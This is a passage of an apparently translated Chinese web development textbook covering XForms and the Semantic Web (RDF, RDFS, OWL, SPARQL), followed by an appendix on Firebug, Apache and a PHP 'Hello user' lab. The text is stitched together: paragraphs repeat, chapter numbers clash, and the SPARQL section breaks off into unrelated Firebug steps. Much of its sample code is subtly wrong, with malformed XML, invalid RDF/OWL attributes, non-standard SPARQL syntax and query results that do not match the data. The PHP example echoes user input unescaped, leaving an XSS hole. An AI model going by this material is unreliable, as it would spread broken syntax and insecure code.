- Web 3.0：将单体 Web 页面分解为离散组件的最后一步，包括呈现（HTML 和 (X)HTML）、逻辑（Web 服务 API）和数据（数据模型）三一体，它将 Web 容器从 Web 页面转向 Web 数据。它的出现简化了数据模型驱动的复合应用的开发和部署，能够以简单、透明且组织化的方式访问“世界的数据、信息和知识”。

回顾 Web 技术从 HTTP 表单到 XForms、从语法 Web 到语义 Web 的演进，我们看到如何建模、结构化和组织 Web 数据一直是一个关键问题。

Web 3.0 连接并合并 Web 上的所有信息作为一个全局数据库。在 Web 3.0 中，Web 将组织成一个良好的数据库，使得浏览器计算机应用程序而不仅仅是浏览器可以访问内容，为语义 Web 引入人工智能。在之前的章节中，我们详细讨论了`XMLHttpRequest`和 Ajax。在本章中，我们将介绍语义 Web。Web 的未来是语义化的。在讨论语义 Web 之前，你应该了解 XML 表单语言（XForms），它提供了一种新的查看表单的方式，内容、结构和呈现完全解耦。

## 9.2 XForms

XForms 是 W3C 在 2003 年推荐的下一代 Web HTML 表单（XHTML 2.0）。XForms 是 HTML 的改进和增强。XForms 使用 XML 在 Web 上创建输入表单。

传统的 XHTML 表单由三部分组成——XForms 模型、实例数据和用户界面——类似于模型-视图控制器模型，将呈现与数据及业务逻辑分离。XForms 具有设备无关性，许多移动设备可以作为 XForms 用户界面进行呈现。数据存储在 XML 文档中。向任何其他 XML 输入添加 XForms 元素都是简单的。呈现与数据的分离增加了表单的可重用性。XForms 本身具有表单验证功能。XForms 显著减少了对脚本事件处理程序的需求。总之，XForms 提供了一种强大、快速、更安全且设备无关的方法来处理 Web 输入。例如，XForms 中强类型的提交数据可以在本地进行验证，而无需往返服务器进行检查。XForms 将被所有主流浏览器采用。XForms 现在可以集成到 XHTML 的许多其他语言中。

### 9.2.1 XForms 示例

现在我们设计一个简单的 XForms 实例并看看它是如何工作的。

该页面的布局如下。通过此表单，学生可以根据专业和学位级别提交信息请求。


显然，该表单正在收集代表学生的数值。你可以在下面的模型元素中看到学生实例数据。

```xml
<html xmlns="http://www.w3.org/1999/xhtml"
      xmlns:xf="http://www.w3.org/2002/xforms">
  <Head>
    <title>XForms Sample</title>

    <xf:model>
      <xf:instance xmlns="">
        <MyData>
          <MyLevel type="xs:string"/>
          <MyMajor type="xs:string"/>
        </MyData>
      </xf:instance>

      <xf:submission id="form1" method="get" action="myXForms.jsp"/>
    </xf:model>
  </head>

  <body>
    <xf:select1 ref="/MyData/MyLevel" selection="closed" appearance="full">
      <xf:label>Level:</xf:label>

      <xf:item>
        <xf:label>undergraduate</xf:label>
        <xf:value>ug</xf:value>
      </xf:item>

      <xf:item>
        <xf:label>graduated</xf:label>
        <xf:value>gd</xf:value>
      </xf:item>
    </xf:select1>

    <xf:input ref="/MyData/MyMajor" incremental="true">
      <xf:label>Major:</xf:label>
    </xf:input>

    <xf:submit submission="form1">
      <xf:label>Submit</xf:label>
    </xf:submit>
  </body>
</html>
```


### 9.2.1.1 XForms 数据模型

定义在 `<head>` 部分的 `<xf:model>` 元素中的数据模型收集学位类型和专业信息。用户界面通过使用 `ref` 属性绑定到模型。XForm 模型使用 `instance` 元素来定义数据的 XML 模板。`<MyData>` 元素是 `<instance>` 标签的根。

### 9.2.1.2 XForms 用户界面

XForms 用户界面显示 XForms 模型元素收集的数据输入。它关注表单的外观和感受。XForms 中的用户界面元素被称为输入控件。它们的定义方式与普通的 HTML 控件相同，只是它们引用的是模型元素中定义的数据元素。

# 第 9 章 Web 应用程序的未来

具有不同的界面需求，但可以使用相同的数据模型来适应所有这些需求。为所有设备复用相同的数据模型是 XForms 优于 HTML 表单的重要优势之一。此外，XForms 允许多个提交按钮以不同的目的作用于同一个数据模型，而 HTML 表单仅有一个按钮。

与 HTML 相比，XForms 许多许多高级功能。例如，可以像 `XmlHttpRequest/Ajax` 一样请求新数据并用于即时更新。

总而言之，XForms 的高级功能如下：

- 由于其通用的用户界面，增强了应用程序的无障碍性。XForms 与无障碍技术同样运行良好。
- 基于 XML 提交的易用性。它可以加载 XML 并提交 XML 数据。XForms 与 XML 技术集成，并可以复用现有的 XML 架构（schema）。
- 由于模型和界面的分离，具有支持多个设备的设备适应性。同一个表单在不改变的情况下即可适应传统浏览器、PDA、手机或其他任何设备。为许多客户端编写表单时只需编写一次即可。
- 由于对属性、值以及值之间的关系进行声明式标记，编写表单变得非常简单。使用现有的 XML 解析和处理包也非常容易。

XForms 是下一代 Web 表单应用程序。几乎所有的 Web 应用程序都有 Web 表单，因此它对未来的部署产生巨大影响。

## 9.3 语义网

### 9.3.1 概述

语义网是 W3C 组织在 2001 年推荐的下一代 Web。语义网是计算机可处理数据的 Web，是当前全球网的扩展。当前 Web 中的数据结构化是为了浏览器访问或为了引擎而设计的，而不是以预定义的语义格式组织，以便应用程序能够自动、有效地理解、检索和处理数据。

语义网的先驱蒂姆·伯纳斯李指出，语义网通过为 Web 添加逻辑并将其转换为全球数据库，是信息过载和 Web 个性化的解决方案。由于 Web 上数据之间缺乏语义连接，我们通常需要搜索许多网站来获取答案，并且可能面临很高的命中率。

例如，一些佐治亚理工学院（GaTech）的学生希望在夏天去南方理工大学（SPSU）上一些临时课程，以便将这些学分转回 GaTech。（GaTech 在夏天不提供这些课程）。这些学生必须先访问 GaTech 网站来寻找 SPSU 上符合条件的转学课程，然后去 SPSU 网站查找课程描述和时间表信息，然后返回 GaTech 网站进行在线申请。

这个过程非常耗时，如果学生因为大量高错误率的搜索结果而无法获得所需信息，情况会变得更糟。所有问题都是由于语义网缺乏语义引起的，因为它只关注文档的交换。

语义网还提供了显示知识体概念的本体论元数据（ontology metadata）。通过语义网，你可以建立一个特定领域的语义网，其元数据与 URI 及其本体论（即数据之间关系、分类法或映射关系的元数据）相关联，从而成为 Web 上全球数据库的一部分。

你可以有效利用使用智能的特定领域的搜索引擎，只查找有用的信息，而不是从原始 Web 上的普通搜索引擎返回的大量无关数据。语义网搜索引擎比目前的搜索引擎要智能得多，因为它可以使用本体论知识和规则，根据语义网原理推导出结论。

语义网的软件将能够以智能的方式发现、理解和使用语境中的所有相关数据。语义网的一个很好的例子是维基百科，它是世界上最大的协作编辑百科全书。

语义网的目标是：

1. 提供并支持通用格式，用于对 Web 上不同位置、不同格式的多种来源数据进行集成和组合。
2. 记录不同数据集之间的关系，并描述它们如何与现实世界对象相关。

它允许机器从一个网站开始搜索数据，然后遵循语义本体论关系连接遍历所有必要的链接，以到达语义查询中的所有数据。语义本体论像跨越许多与 Web 相关网站的桥梁。

例如，人们可以在带有“哺乳动物”标识符的数据库或主页之间建立“语义链接”，而另一个标识符可以是“食肉动物”及其属性。食肉动物和哺乳动物之间的关系是“是一种（is a）”，也称为子类关系：食肉动物是哺乳动物的子类，并包含了哺乳动物的所有属性。这种方法允许机器通过链接自动整合来自许多不同来源的数据。

语义网从以人为导向、基于文档的 Web 转向以机器为导向、信息链接的 Web；它从以数据为导向的 Web 转向在原始 Web 之上构建有意义元数据的语义 Web。

这种语义网不仅提供了文档，还提供了一个通用框架，允许应用程序代理自动共享、复用和处理数据。它还提供了一个全球集成的以本体为核心的数据库，将 Web 上所有相关的数据库合并。

### 9.3.2 语义网的结构

语义网将 Web 上的各种资源映射到表示法上，使得底层数据与其表示法独立。正如图 9.3.1 所示的分层结构，所有数据资源具有 URI 唯一标识。

| 规则/查询 |
| :--- |
| 本体 |
| RDFS Schema |
| RDF 模型 |
| 带有 URI 的资源 |

图 9.3.1 语义网分级结构

2004 年 W3C 的基础规范包括资源描述框架（RDF）、RDF 架构（RDFS）、网络本体语言（OWL）、查询（SPARQL）和语义网规则语言（SWRL）。

基本的语法表示为主语-谓语-宾（SPO）语句，由资源描述语言（RDF）/XML 表示。许多额外的约束和语句属性由 RDFS 描述，它是 RDF 的扩展。RDFS 描述了资源组、资源属性以及资源之间的关系。

基于 XML 的 RDF 和 RDF 共同为上层解析和分析提供了共享和复用的语法互操作性。特定领域的本体词汇可以通过 OWL 框架建立，它为语义网应用程序提供了语义互操作性。它通过类、子类、属性、类操作描述数据模型。

OWL 通过 SWRL 和 SPARQL 在此 Web 语义本体上进行逻辑推理和演绎。

### 9.3.3 RDF

RDF 由 W3C 推荐，是一种基于 XML 的框架，用于 Web 上的数据资源的建模、表示和集成。每个资源都通过属性对及其值以三元组 RDF 语句格式描述。URI 标识每个三元组元素。

URI 的目的是通过链接到定义概念的地方，以主语、谓语或对象的形式唯一标识一个概念。RDF 为链接分布式元数据提供了基础设施。

资源定位符（URL）是一种典型的 URI，描述了资源访问机制，包括协议类型（`http`；`ftp`；`mail`；……）和访问地址。每个网页都有其全球唯一的 URL。电子邮件地址也是一种 URL。

图 9.3.2 单三元语句图


图 9.3.3 简单三元模式图

图 9.3.2 展示了 SPO 描述语句图法，其中谓语在句子中表现为从主语到对象的箭头链接。

具有相同 URI 的节点被认为是等等的，因此很容易合并 RDF 图中的节点，其中节点代表资源，边代表资源的属性。RDF 以一组三元组的形式编码信息，每个三元组都类似于简单句子中的主语、谓语和宾语。

URI 不仅标识原始语句的主语，还标识谓语和对象。RDF 语句中的对象可以是 URI，也可以是字面量（literal values），例如用于表示某些属性值的字符字符串。字面量不能作为 RDF 语句的主语或谓语。

在 RDF 中，英文语句 `"Carnivore eats meat"`（肉食动物吃肉）是一个描述性语句。在这个语句中，主语是 `#carnivore`；谓语是 `#eats`；对象是短语 `"meat"`。前缀（Prefix）是指向其 URI 的引用。

`"Carnivore is a mammal"`（肉食动物是哺乳动物）是另一个描述肉食动物类和哺乳动物类之间关系的描述性语句。主语是 `#carnivore`；谓语是定义为 `subClassOf` 的 `"is_a"` 关系；对象是 `#mammal`。图 9.3.3 显示了这些 RDF 三元组语句。

语义网（Semantic Web）是一种其资源节点通过许多相关三元组连接的网。一个三元组语句的主语可以是另一个三元组的对象，也是许多其他三元组语句的主语。图中的箭头链接代表谓语或属性，它也可以指向此 RDF 图中的其他资源节点。

三元组的对象可以是资源（椭圆）或终结性字面量（矩形）。语义网是所有相关资源的网络，其中每个资源代表一个抽象概念、网页、消息、图像或任何相关信息。

接下来，让我们来看看描述资源的常用 RDF 属性。

| 属性 | 描述 |
| --- | --- |
| `rdf:RDF` | RDF 文档的根 |
| `rdf:about` | 定义被描述的资源 |
| `rdf:description` | 资源描述的容器 |
| `rdf:resource` | 定义用于标识属性的资源 |
| `rdf:datatype` | 定义元素的数据类型 |
| `rdf:ID` | 定义元素的 ID |

例如，以下 RDF 文档可以描述资源 `http://www.spsu.edu/Ajax-book`，其中“Ajax-book”是一个资源或主语，它具有一个属性为“author”（其值为 Kai Qian）以及另一个属性为“homepage”（其值为 `http://www.jbpub.com`）。

```xml
<xml version="1.0"?>

<RDF>

<Description about="http://www.spsu.edu/Ajax-book">

<author>Kai Qian</author>

<homepage>http://www.jpubub.com/</homepage>

</Description>

</RDF>
```

在这个简化的 RDF 文档中省略了命名空间。

RDF 中的命名空间与 XML 以及 Java 中的 .NET 包相同，用于指定实体的领域范围。它在 RDF 中被广泛使用。

例如，RDF 命名空间（`xmlns:rdf`）是 `http://www.w3.org/1999/02/22-rdf-syntax-ns#`；RDFS 命名空间（`xmlns:rdfs`）是 `http://www.w3.org/2000/01/rdf-schema#`。你可以分别使用 `rdf` 和 `rdfs` 前缀来引用这两个命名空间。

这是一个添加了命名空间的关于 Java 书籍的 RDF 文档：

```xml
<?xml version="1.0"?>

<rdf>

xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#"

xmlns:book="http://www.fake.virtual/book#">

<Description

rdf:about="http://www.fake.virtual/book/Java web Development">

<book:author>Kai Qian</book:author>

<book:price>79.0</book:price>

<book:year>2007</book:year>

</Description>

</rdf>
```

第一行声明此 RDF 文档是基于 XML 的。RDF 文档的根元素是 `<rdf:RDF>`。`xmlns:rdf` 命名空间声明带有 `rdf` 前缀的元素来自命名空间 `http://www.w3.org/1999/02/22-rdf-syntax-ns#`。`xmlns:book` 命名空间声明带有 `book` 前缀的元素来自命名空间 `http://www.virtual.com/book#`。

`<rdf:description>` 元素包含由 `rdf:about` 属性标识的资源的描述。`<book:author>`、`<book:price>` 和 `<book:year>` 元素是资源的属性；它们定义在 `http://www.fake.virtual/book#` 命名空间中。该命名空间位于 RDF 之外（不属于 RDF 内置命名空间的一部分）。

## 9.3 语义网 415


语义网是一种其资源节点通过许多相关三元组连接的网。一个三元组语句的主语可以是另一个三元组的对象，也是许多其他三元组语句的主语。图中的箭头链接代表谓语或属性，它也可以指向此 RDF 图中的其他资源节点。

三元组的对象可以是资源（椭圆）或终结性字面量（矩形）。语义网是所有相关资源的网络，其中每个资源代表一个抽象概念、网页、消息、图像或任何相关信息。

## 9.3 语义网

“Ajax-book authorname” 是 kai，“Ajax-book authorCV” 位于 `http://cse.spsu.edu/kqian`。

RDF 文件的推荐扩展名是 `*.rdf`。然而，通常使用 `*.xml` 扩展名以提供与旧版 XML 解析器的兼容性。

### 9.3.4 RDF 模式（RDFS）和应用类

RDF 通过使用类、属性和值来描述资源。简单来说，RDF 模式（RDFS）扩展了 RDF 并提供了额外的实用元素：类（class）和属性（property）。

RDFS 提供了关于 RDF 的额外知识，并用于定义面向应用程序的类和属性。面向应用程序的类和属性必须通过 RDF 的扩展来定义，即 RDFS。RDFS 为描述特定应用程序的类和属性提供了框架。

例如，在面向对象编程中一样，RDFS 中的类可以通过继承成为另一个类的子类。RDF 资源可以是类的实例，也可以是其他类的子类。

在 RDFS 中，`rdfs:Resource` 和 `rdfs:Class` 是节点，而 `rdf:type` 和 `rdfs:subClassOf` 是连接主体节点（属性所有者）和对象节点（属性值）的属性。

`rdf:type` 定义了成员关系；即一个个体属于特定的类。该个体可以是字面量（literal），也可以是实例。`subClassOf` 描述了两个类之间的关系，其中子类中的一个实例或个体也是父类中的实例或个体。这些新的 RDFS 内置元素扩展了 RDF 框架。

在 RDFS 中，属性本身是一个类，它可以有自己的子属性；属性可以有 `rdfs:domain`（域）来限制其主体（属性所有者）的范围，以及 `rdfs:range`（范围）来限制对象（或可能的属性值）的范围。

在 `(P rdfs:domain d)` 中，P 是属性，d 是一个类实例，当使用属性 `P` 时，主体必须是类 `d` 中的一个个体。

在 `(P rdfs:range r)` 中，P 是属性，r 是一个类实例，每当使用属性 `P` 时，对象必须是类 `r` 中的一个个体。

在著名的动物识别类本体论中，你知道食肉动物（carnivore）是一种哺乳动物，而老虎（tiger）是一种食肉动物。

有许多动物属于食肉动物；老虎是食肉动物的一种。食肉动物除了作为资源外，还应该被定义为一个类。

老虎也是如此——世界上不同地区生活着许多不同类型的老虎。老虎是来自不同地区的特殊老虎集合。老虎是一种吃肉和奶的特殊食肉动物，但它有自己的黑色条纹和黄褐色颜色的属性。

在一个名为 `animal-world.rdf` 的文件中，你通过 RDFS 标准中的类定义声明食肉动物是一个类：

```xml
<rdf:Description rdf:ID="Carnivore">

  <rdf:type rdf:resource="http://www.w3.org/2000/01/rdf-schema#Class"/>

</rdf:Description>
```

在 `animal-world.rdf` 中指定的哺乳动物类的基础上，你可以声明老虎资源是哺乳动物类的子类：

```xml
<rdf:Description rdf:about="Tiger">

  <rdf:subClassOf rdf:resource="animal-world.rdf#Carnivore"/>

</rdf:Description>
```

从上一个例子中，你知道资源“tiger”也是类“mammal”的子类。你如下所示声明它：

```xml
<?xml version="1.0"?>

<rdf:RDF
xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns"
xmlns:rdfs="http://www.w3.org/2000/01/rdf-schema#"
xml:base="http://www.animal-world.xyz/mammal#">

  <rdfs:Class rdf:ID="mammal" />

  <rdfs:Class rdf:ID="tiger">

    <rdfs:subClassOf rdf:resource="#mammal"/>

  </rdfs:Class>

</rdf:RDF>
```


此 RDF 文档通过 `rdfs:Class` 元素命名空间在 `http://www.animal-world.xyz/mammal#` 中定义了一个哺乳动物类，并通过 `rdfs:subClassOf` 元素声明了一个老虎类，它 哺乳动物类的子类。你在文档中使用了三个命名空间：`rdf`、`rdfs` 和 `base`。

RDFS 提供了其他 `rdfs` 元素：`rdfs:domain` 和 `rdfs:range` 元素用于指定资源的域和范围，以对 RDF 资源进行约束。

RDFS 支持 `rdfs:Class`、`rdfs:Datatype`（类类型的子类）、`rdfs:Resource`（类的子类）、`rdfs:Container` 和 `rdfs:Literal`（资源类的子类）。


从上一个 RDF 图中，你可以看到 RDFS 为本体描述提供了基本元素。图中包含两个重要组件：类（class）和属性（property）。

所有资源都由其他资源分类。

`(#mammal rdf:type rdfs:Class)` 是模式三元组（schema triple），`(#tiger #eats meat)` 是数据三元组（data triple）。

`(#carnivore rdfs:subClassOf #Animal)` 是两个类之间子类关系的简单三元组，`(#tiger rdf:type #carnivore)` 是个体成员关系的示例三元组（sample triple）。

你还看到了带有域和范围属性的属性约束，例如：

- `(#eats rdf:type rdf:Property)`
- `(#tiger #eats "meat")`
- `(#eats rdfs:domain #carnivore)`
- `(#eats rdfs:range rdfs:Literal)`

## 8.3.5 本体与网络本体语言（OWL）

RDFS 非常有用。但它没有涵盖更复杂应用的所有可能需求，例如如何验证定义不同领域的两个概念的等效性、如何从现有类构建新类、或如何从现有类派生新类、如何限制特定属性，以及如何区分个体与类。

## 第 9 章 Web 应用程序的未来

语义网应用需要在 RDFS 之上有一层本体语言。

语义网本体语言（OWL）描述了网络信息资源以及资源之间的关系。OWL 是一种语义网本体的语言标准，以满足这一需求。它在 2004 年成为 W3C 推荐标准。OWL 设计用于构建、集成、处理和查询网络信息本体。

OWL 的重点是提供一种处理网络信息内容的方法，而不是显示。OWL 涵盖了 RDF 和 RDFS 的所有词汇和语法，比这两个标准要强大得多。OWL 使用 XML 编写。OWL 支持更形式的概念和关系以及对属性的约束，并作为推理机制。

OWL 是一个建立在 RDFS 之上的标准层，引入了集合（collection）和个体（individual）以区分类和个体。例如，你声明了一个“Mammal”类并定义了一个名为“Tomcat”的个体：

```xml
<owl:Class rdf:ID="Tomcat">
</owl:Class>
```

```xml
<owl:Thing rdf:ID="Tomcat">
  <rdf:type="#Mammal"/>
</owl:Thing>
```

类、个体和属性是 OWL 中的三个主要组件。

首先，OWL 类是 OWL 中的重要元素。OWL 类是本体的构建块。OWL 支持类的交集、并集、补集以及对类的约束。

此 RDF 文档通过 `rdfs:Class` 元素命名空间在 `http://www.animal-world.xyz/mammal#` 中定义了一个哺乳动物类，并通过 `rdfs:subClassOf` 元素声明了一个老虎类，它是哺乳动物类的子类。你在文档中使用了三个命名空间：`rdf`、`rdfs` 和 `base`。

RDFS 提供了其他 `rdfs` 元素：`rdfs:domain` 和 `rdfs:range` 元素用于指定资源的域和范围，以对 RDF 资源进行约束。

RDFS 支持 `rdfs:Class`、`rdfs:Datatype`（类类型的子类）、`rdfs:Resource`（类的子类）、`rdfs:Container` 和 `rdfs:Literal`（资源类的子类）。

以下 OWL 片段声明了个体“Tiger”是类“Carnivore”的一个个体成员，该类有一个“Colors”的属性限制，其值为 2，表示它只有两种颜色。“Color”属性在下一节中定义。

## 第 9 章 应用程序的未来

```xml
<Carnivore rdf:ID="Tiger">
  <Colors>2</Colors>
</Carnivore>
```

接下来，让我们来看 OWL 属性声明。

```xml
<owl:ObjectProperty rdf:ID="Colors">
  <rdfs:domain rdf:resource="#Animal">
  <rdfs:range rdf:resource="rdf:Literal"/>
</owl:ObjectProperty>
```

你声明了一个应用于“Animal”（动物）类的“Colors”对象属性，颜色值将是一个字面量单词（literal）。然后，你将 `owl:Restriction` 应用于此“Colors”属性，并将其 `owl:maxCardinality` 设置为 10。

```xml
<owl:Restriction>
  <owl:onProperty rdf:resource="Colors">
  <owl:maxCardinality rdf:datatype="vsd:integer">
    10
  </owl:maxCardinality>
</owl:Restriction>
```

总结来说，OWL 被语义网应用程序用于处理语义网信息的内容，而不是用于显示信息。在本节中，你已经简要地看到了如何使用 OWL 构建语义网本体（ontology）。在下一节中，你将看到如何使用 OWL 本体来查询信息。

## 9.3.6 使用 SPARQL 查询语言查询语义网

基于 SPARQL 协议的 RDF 查询语言（SPARQL）是一种查询语言，为 Web 应用程序处理 RDF 本体提供了工具。SPARQL 允许你通过三元组模式（triple patterns）来匹配 RDF 图中的模式，三元组模式与三元组相似，但它们可能包含变量占位符。变量在数据集中用作通配符 RDF 语。语义网为任何 Web 应用程序提供本体，以检索全局信息或领域特定信息，而普通的搜索引擎是无法支持这些信息的，因为目前的 Web 并不是语义化的，且目前的搜索引擎不支持语义推理机制。

OWL `SELECT` 查询语句用于从 RDF 图中提取数据，并以结果表格的形式返回数据。

三元组模式可以包含变量。三元组模式中的主体（subject）、谓语（predicate）和对象（object）值的任何一个或所有值都可能被变量匹配。变量用于指示查询将返回的感兴趣的数据项。

下一个 SPARQL 查询显示了一个三元组模式，在主体和谓语已知的情况下，用变量 `?food` 代替三元组模式中的对象：

```sparql
:carnivore :eats ?food.
```

因为 SPARQL 变量可以匹配任何值，此模式将匹配在指定的命名空间内具有针对 carnivore（食肉动物）的 eats（吃）属性的 RDF 资源。每个匹配模式的三元组将把 RDF 数据集中的实际值绑定到每个变量。例如，该模式与我们的数据集之间存在绑定，其中存储的三元组语句中的对象“meat”（肉）被匹配并绑定到 `food` 变量上。

在 SPARQL 中，将找到所有可能的绑定。因此，如果一个资源具有给定属性的多个实例，就会找到多个绑定。接下来的 SPARQL 查询包含多个变量。

```sparql
?subject ?predicate ?object.
```

或者 `?x y ?z`，此模式匹配 RDF 数据集中所有的三元组。变量的名字没有区别。几个三元组模式还可以与并（union）、可选（optional join）和过滤（filters）等代数运算结合，通过限制值来构建复杂模式。SPARQL 提供了 `ORDER BY`、`LIMIT/OFFSET`、`DISTINCT` 修饰来修改查询结果。让我们来看第一个 SPARQL 查询的基本结构。假设关于动物世界的 RDF 数据集如下，动物本体的前缀为：

```text
carnivore :eats "meat"

carnivore :has "claws"

tiger rdf:type carnivore

tiger rdf:avgAge "30"

carnivore rdf:type mammal

mammal :has "hair"

mammal :gives "milk"

cow rdf:type mammal

cow rdf:avgAge "20"

sheep rdf:type mammal

sheep rdf:avgAge "10"
```

以下是一些 SPARQL 示例：

### Q1：谁喜欢吃肉？

```sparql
SELECT ?who

WHERE (?who :likes "meat")
```

该查询返回的结果如下：

```text
who Carnivore
```

### Q2：谁吃肉？

```sparql
SELECT ?x

WHERE (?x :eats "meat")
```

也会返回与之前相同的的结果。

### Q3：食肉动物的行为是什么？

```sparql
SELECT ?behavior ?x

WHERE (:carnivore ?behavior ?x)
```

查询结果：

```text
behavior eats

meat"

"claws"
```

### Q4：谁拥有什么？

```sparql
SELECT ?who ?what

WHERE (?who :has ?what)
```

查询结果：

```text
who what

carnivore "claws"

mammal "hair"
```

### Q5：有多少种不同的哺乳动物？

```sparql
SELECT ?who

WHERE (?who :type :mammal)
```

查询结果：

```text
who

carnivore

cow

sheep
```

### Q6：推理查询：老虎属于哪一类？

```sparql
SELECT ?type

WHERE (tiger rdf:type ?type)
```

查询结果：

```text
type

carnivore

mammal
```

### Q7：带过滤查询：谁的平均寿命超过 15 年？

```sparql
SELECT ?who

WHERE (?who :avgAge ?age) FILTER (?age > 15)
```

2. Firefox 重启后，你可以通过从浏览器菜单中选择“工具 -> Firebug -> 打开 Firebug”或按下 F12 键来打开 Firebug 并进行查看。


3. 一旦打开 Firebug，你可以选择 HTML 标签页来检查网页的 HTML 和 CSS。你甚至可以编辑 CSS，并立即看到更改反映在网页上。这种能够微调 CSS 的能力是 Firebug 最实用的功能之一。


# 第 10 章 附录

4. 你还可以选择 Script 标签页来查看网页的 JavaScript 代码。从此标签页，你还可以在 JavaScript 代码中设置断点进行单步调试。只需点击你想要设置断点的行号并重新加载页面，或者执行任何让代码运行的必要操作（例如点击按钮）。Firebug 将在断点处停止 JavaScript 执行，你可以使用 Breakpoints 标签页上方的按钮逐步执行代码。


5. Firebug 是一个不仅实验 CSS 而且实验 JavaScript 的绝佳工具。如果你点击 Console 标签页，将获得一个命令行，你可以在其中输入 JavaScript 代码来实验 DOM。


Firebug 被用于某些章节中，非常值得安装和熟悉。它是一个真正无法比拟的工具。如需更多信息，请查看 Firebug 网站上的文档，特别是 JavaScript 调试工具（`http://www.getfirebug.com/js.html`）。

## 10.3 Apache

### 10.3.1 Apache Web 服务器概述

Apache 是一个由 Apache 软件基金会开发的流行的开源、符合 HTTP 标准的 Web 服务器。世界上超过 60% 的网站都在使用 Apache。许多商业供应商已在其产品中采用了基于 Apache 的解决方案，包括亚马逊、Yahoo、IBM、红帽 和 ORACLE。

Apache 开发组表示：Apache HTTP Server 项目是一项努力，旨在为包括 UNIX 和 Windows NT 在内的现代操作系统开发和维护一个开源 HTTP 服务器。该项目的目标是提供一个安全、高效且可扩展的服务器，根据当前的 HTTP 标准同步提供 HTTP 服务。

Apache 服务器是一个强大、灵活且符合 HTTP/1.1 标准的 Web 服务器，它：

- 实现最新的协议，包括 HTTP/1.1
- 具有高度可配置性，并可以通过第三方模块进行扩展
- 可以通过 Apache 模块 API 编写“模块”进行自定义
- 提供完整的源代码并附带不受限制的许可证
- 运行在 Windows、Netware 5.x 及以上版本、OS/2 以及大多数版本的 Unix 以及其他几种操作系统上
- 正在被活跃开发
- 通过新想法、错误报告和补丁鼓励用户反馈

Apache 是基于模块化架构构建的。一个模块可以复用以开发其他模块、协议或应用程序。可以使用任何 Apache 支持的语言编写新模块。这一特性极大地增强了它的适应性、扩展性、可扩展性和灵活性，使 Apache 变得强大得多。

Apache 服务器安全是另一个重要特性。它拥有支持安全套接层（SSL）和传输层安全（TLS）协议的模块，允许 Web 服务器与客户端之间的数据加密。此外，Apache 还拥有支持身份验证和访问控制的模块，用于对明文和数据库文件验证。它还提供身份验证以确定客户端身份，通常是通过对比后端数据库验证用户名和密码。

Apache 的可扩展性由负载均衡支持，而请求重定向是你通过 Apache 获得的另一个优势。

Apache 的稳定性是它受欢迎的另一个原因。Apache 是可的，因此它可以运行在任何平台，包括 UNIX、Linux、Windows 和 Mac OS X。原始的 Apache 是基于 NCSA HTTPd Web 服务器开发的。它的名字源于 A Patchy server，因为它是基于带有许多补丁的现有 NCSA 代码开发的。

另一个重要特性是它在多进程和多线程方面的高性能。Apache 可以配置为纯进程服务器模式、纯线程服务器模式，或两者的混合模式。一个进程可以同时运行多个线程。线程可以在进程的内存中共享数据和代码，但每个进程都有自己专用的内存空间。由于资源共享，这两种模式在可靠性之间存在权衡。

Apache 可在 `http://httpd.apache.org` 下载。

Apache 的当前版本支持 Web 开发平台集成，这意味着 Apache 模块可以完全用集成的语言平台编写。Apache 具有多个集成模块支持与服务器配合的 Web 工具，如 Java 和 C#。以下是 Apache 集成平台列表：

- PHP（一个流行的 Apache 模块）是一种服务器端、跨平台的、嵌入 HTML 的脚本语言，它有许多支持模块，包括用于使用 ODBC、Oracle、MS-SQL server、MySQL 和 PostgreSQL 等流行数据库的数据库连接模块
- XML
- HTTP, FTP
- 目录支持：LDAP
- PDF 生成
- CORBA
- SNMP

Apache 集成了 Mono .NET 和 ASP .Net 微软框架，并将 Apache API 暴露给 .Net 框架，以便开发人员可以使用 C# 或 VB .NET 编写模块，并在 Apache 上运行 .Net Web 应用程序，而不是 Microsoft IIS。

## 10.4 PHP

PHP 与 MySQL 的配合也非常好。这两者构成了跨平台数据驱动 Web 应用程序的最佳组合。PHP 还可以支持大量的数据库，包括基于 Informix、Oracle、Sybase 和 ODBC 驱动的数据库。

## 10.4.2 Apache 上的 PHP Web 实践实验

在本节中，你将获得一个关于“Hello user”的 Apache 服务器和 PHP Web 项目的上手实验。一个基于 HTTP 服务器页面的 PHP 页面将部署在 Apache Web 服务器上。如果 Web 客户端访问此页面并在 `<name>` 处填写姓名，PHP 将动态创建一个带有问候语句“Hello `<name>`”的响应。

在安装 Apache 服务器后，你可以通过 `http://www.php.net/downloads.php` 下载并安装 PHP。`http://www.php.net/install.windows` 上的安装手册可能会有所帮助。二进制安装程序易于使用。但是，如果你想使用手动安装，需要将 PHP 5.x 提取到 `C:\php`。你可以选择不同的位置，但不要在路径中留任何空格（例如 `C:\Program Files\PHP`），因为这样做会导致某些服务器崩溃。

在你的 PHP 目录中，有两个文件：`php.ini-dist` 和 `php.ini-recommended`。将其中一个重名为 `php.ini`（优先使用 `php.ini-recommended`）。

首先，按所示编辑 `php.ini` 文件：

```ini
doc_root = C:\Program Files\Apache Software Foundation\Apache2.2\htdocs

extension_dir = "c:\php\"
```


接下来，编辑 Apache 配置文件`httpd.conf`。向该文件添加以下行，PHP 即可作为模块正常工作：

```
LoadModule php5_module "c:/php/php5apache2_2.dll"
AddType application/x-httpd-php .php
PHPIniDir "c:/php/"
```

`http://www.ricocheting.com/server/php.html`上的网页是一个很好的入门教程。

你可以在 Apache 默认文件夹中创建一个名为`test.php`的文件：
`:\Program Files\Apache Software Foundation\Apache2.2\htdocs`
php 模板显示如下：

```
<?php
phpinfo();
?>
```

保存配置并启动 Apache 服务器。访问`http://local-host/test.php`，你将看到以下：


按所示编辑由 PHP 提供的 HTML 模板：

```
<html>
<head>
<title>hello user</title>
</head>
<body>
<form action="test.php" method="post">
Name: <input type="text" name="name" />
<input type="submit" value="submit"/>
</form>
Hello! <?php echo $_POST["name"]; ?>
</body>
</html>
```

这是一个嵌入了 php 标签`<?php ...?>`的 HTML 文件。该 php 标签简单地在页面上回显输入的名称。如果你如下所示在名称框中输入“John”，


你将看到一个 PHP 响应页面显示“Hello! John”。


## 10.4.3 使用 XAMPP 进行 PHP 和 Ajax

本教程展示了在 Apache 服务器上通过 Ajax 客户端和 PHP 服务器交互实现的相同“Hello user”示例。XAMPP（Linux, Apache, MySQL, PHP 和 Perl）是一个包含 MySQL、PHP 和 Perl 的 Apache 分发。XAMPP 易于安装和使用：只需下载、解压并启动。这里使用了 XAMPP，它自带了预编译的 Apache 和 PHP。

你可以从`http://www.apachefriends.org/en/xampp-windows.html`下载 Windows 版 XAMPP。

### 第 1 步：

